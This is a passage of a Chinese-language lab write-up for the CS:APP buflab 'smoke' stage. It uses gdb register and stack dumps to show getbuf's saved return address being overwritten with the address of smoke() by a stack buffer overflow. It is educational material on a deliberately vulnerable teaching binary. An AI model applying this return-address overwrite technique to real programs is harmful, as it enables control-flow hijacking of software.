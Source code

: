 下面通过gdb来检验一下是否成功。在gdb中getbuf处设置断点:


    (gdb) r -u yj < ans.raw 
    Starting program: /home/yj/yangjin/cs_app/buflab/buflab-handout/bufbomb -u yj < ans.raw
    Userid: yj
    Cookie: 0x3ab24af4

    Breakpoint 1, 0x080491fa in getbuf ()
    (gdb) info registers 
    eax            0x615ef6a	102100842
    ecx            0xb7fbf068	-1208225688
    edx            0xb7fbf3cc	-1208224820
    ebx            0x0	0
    esp            0x556836a8	0x556836a8 <_reserved+1037992>
    ebp            0x556836e0	0x556836e0 <_reserved+1038048>
    esi            0x55686018	1432903704
    edi            0x1	1
    eip            0x80491fa	0x80491fa <getbuf+6>
    eflags         0x212	[ AF IF ]
    cs             0x73	115
    ss             0x7b	123
    ds             0x7b	123
    es             0x7b	123
    fs             0x0	0
    gs             0x33	51

查看当前栈(esp=0x556836a8)的信息：

    (gdb) x/20x 0x556836a8
    0x556836a8 <_reserved+1037992>:	0x0000513a	0xb7fbf3cc	0x0000000c	0x1126312e
    0x556836b8 <_reserved+1038008>:	0x00000000	0xb7fc0898	0x00000000	0x08048da8
    0x556836c8 <_reserved+1038024>:	0x0000513a	0x0804836c	0xb7e586b1	0xb7fbf000
    0x556836d8 <_reserved+1038040>:	0xb7fbfac0	0xb7fbfd80	0x55683710	0x08048dbe
    0x556836e8 <_reserved+1038056>:	0xb7fbfac0	0x0804a57e	0x55683720	0x00000001

buf的起始地址为：ebp-0x28=0x556836e0-0x28=0x556836b8。上面打印的栈空间第4行的最后4个字节ox08048dbe就是getbuf的return addr，同时也是test函数的call getbuf的下一条指令：

    8048daa <test>:
    8048daa:	55                   	push   %ebp
    8048dab:	89 e5                	mov    %esp,%ebp
    8048dad:	53                   	push   %ebx
    8048dae:	83 ec 24             	sub    $0x24,%esp
    8048db1:	e8 da ff ff ff       	call   8048d90 <uniqueval>
    8048db6:	89 45 f4             	mov    %eax,-0xc(%ebp)
    8048db9:	e8 36 04 00 00       	call   80491f4 <getbuf>
    8048dbe:	89 c3                	mov    %eax,%ebx
    8048dc0:	e8 cb ff ff ff       	call   8048d90 <uniqueval>

然后继续单步执行，

    (gdb) n
    Single stepping until exit from function getbuf,
    which has no line number information.
    0x08048c18 in smoke ()
    (gdb) x/20x 0x556836a8
    0x556836a8 <_reserved+1037992>:	0x556836b8	0xb7fbf3cc	0x0000000c	0x1126312e
    0x556836b8 <_reserved+1038008>:	0x31313131	0x31313131	0x31313131	0x31313131
    0x556836c8 <_reserved+1038024>:	0x31313131	0x31313131	0x31313131	0x31313131
    0x556836d8 <_reserved+1038040>:	0x31313131	0x31313131	0x31313131	0x08048c18
    0x556836e8 <_reserved+1038056>:	0xb7fbfa00	0x0804a57e	0x55683720	0x00000001
